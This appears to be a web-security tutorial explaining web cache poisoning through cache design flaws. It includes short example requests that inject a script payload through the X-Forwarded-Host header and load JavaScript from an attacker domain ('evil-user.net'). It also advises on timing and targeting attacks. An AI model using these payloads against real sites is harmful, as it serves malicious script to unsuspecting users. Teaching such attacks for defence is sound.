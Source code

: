 # Exploiting cache design flaws

In this section, we'll look more closely at how [web cache poisoning](https://portswigger.net/web-security/web-cache-poisoning) vulnerabilities can arise due to general flaws in the design of caches. We'll also demonstrate how these can be exploited.

In short, websites are vulnerable to web cache poisoning if they handle unkeyed input in an unsafe way and allow the subsequent HTTP responses to be cached. This vulnerability can be used as a delivery method for a variety of different attacks.

## Using web cache poisoning to deliver an [XSS](https://portswigger.net/web-security/cross-site-scripting) attack

Perhaps the simplest web cache poisoning vulnerability to exploit is when unkeyed input is reflected in a cacheable response without proper sanitization.

For example, consider the following request and response:

```
GET /en?region=uk HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: innocent-website.co.uk 

HTTP/1.1 200 OK 
Cache-Control: public 
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

Here, the value of the `X-Forwarded-Host` header is being used to dynamically generate an Open Graph image URL, which is then reflected in the response. Crucially for web cache poisoning, the `X-Forwarded-Host` header is often unkeyed. In this example, the cache can potentially be poisoned with a response containing a simple XSS payload:

```
GET /en?region=uk HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: a."><script>alert(1)</script>" 

HTTP/1.1 200 OK 
Cache-Control: public 
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

If this response was cached, all users who accessed `/en?region=uk` would be served this XSS payload. This example simply causes an alert to appear in the victim's browser, but a real attack could potentially steal passwords and hijack user accounts.

## Using web cache poisoning to exploit unsafe handling of resource imports

Some websites use unkeyed headers to dynamically generate URLs for importing resources, such as externally hosted JavaScript files. In this case, if an attacker changes the value of the appropriate header to a domain that they control, they could potentially manipulate the URL to point to their own malicious JavaScript file instead.

If the response containing this malicious URL is cached, the attacker's JavaScript file would be imported and executed in the browser session of any user whose request has a matching cache key.

```
GET / HTTP/1.1 
Host: innocent-website.com 
X-Forwarded-Host: evil-user.net 
User-Agent: Mozilla/5.0 Firefox/57.0 

HTTP/1.1 200 OK 
<script src="https://evil-user.net/static/analytics.js"></script>
```

[[WCP with an unkeyed header]]

## Using web cache poisoning to exploit cookie-handling vulnerabilities

Cookies are often used to dynamically generate content in a response. A common example might be a cookie that indicates the user's preferred language, which is then used to load the corresponding version of the page:

```
GET /blog/post.php?mobile=1 HTTP/1.1 
Host: innocent-website.com 
User-Agent: Mozilla/5.0 Firefox/57.0 
Cookie: language=pl; 
Connection: close
```

In this example, the Polish version of a blog post is being requested. Notice that the information about which language version to serve is only contained in the `Cookie` header. Let's suppose that the cache key contains the request line and the `Host` header, but not the `Cookie` header. In this case, if the response to this request is cached, then all subsequent users who tried to access this blog post would receive the Polish version as well, regardless of which language they actually selected.

This flawed handling of cookies by the cache can also be exploited using web cache poisoning techniques. In practice, however, this vector is relatively rare in comparison to header-based cache poisoning. When cookie-based cache poisoning vulnerabilities exist, they tend to be identified and resolved quickly because legitimate users have accidentally poisoned the cache.

[[WCP with unkeyed cookie]]

## Using multiple headers to exploit web cache poisoning vulnerabilities

Some websites are vulnerable to simple web cache poisoning exploits, as demonstrated above. However, others require more sophisticated attacks and only become vulnerable when an attacker is able to craft a request that manipulates multiple unkeyed inputs.

For example, let's say a website requires secure communication using HTTPS. To enforce this, if a request that uses another protocol is received, the website dynamically generates a redirect to itself that does use HTTPS:

```
GET /random HTTP/1.1 
Host: innocent-site.com 
X-Forwarded-Proto: http 

HTTP/1.1 301 moved permanently 
Location: https://innocent-site.com/random
```

By itself, this behavior isn't necessarily vulnerable. However, by combining this with what we learned earlier about vulnerabilities in dynamically generated URLs, an attacker could potentially exploit this behavior to generate a cacheable response that redirects users to a malicious URL.

[[WCP with multiple headers]]

## Exploiting responses that expose too much information

Sometimes websites make themselves more vulnerable to web cache poisoning by giving away too much information about themselves and their behavior.

### Cache-control directives

One of the challenges when constructing a web cache poisoning attack is ensuring that the harmful response gets cached. This can involve a lot of manual trial and error to study how the cache behaves. However, sometimes responses explicitly reveal some of the information an attacker needs to successfully poison the cache.

One such example is when responses contain information about how often the cache is purged or how old the currently cached response is:

`HTTP/1.1 200 OK Via: 1.1 varnish-v4 Age: 174 Cache-Control: public, max-age=1800`

Although this doesn't directly lead to web cache poisoning vulnerabilities, it does save a potential attacker some of the manual effort involved because they know exactly when to send their payload to ensure it gets cached.

This knowledge also enables far more subtle attacks. Rather than bombarding the back-end server with requests until one sticks, which could raise suspicions, the attacker can carefully time a single malicious request to poison the cache.

### Vary header

The rudimentary way that the `Vary` header is often used can also provide attackers with a helping hand. The `Vary` header specifies a list of additional headers that should be treated as part of the cache key even if they are normally unkeyed. It is commonly used to specify that the `User-Agent` header is keyed, for example, so that if the mobile version of a website is cached, this won't be served to non-mobile users by mistake.

This information can also be used to construct a multi-step attack to target a specific subset of users. For example, if the attacker knows that the `User-Agent` header is part of the cache key, by first identifying the user agent of the intended victims, they could tailor the attack so that only users with that user agent are affected. Alternatively, they could work out which user agent was most commonly used to access the site, and tailor the attack to affect the maximum number of users that way.

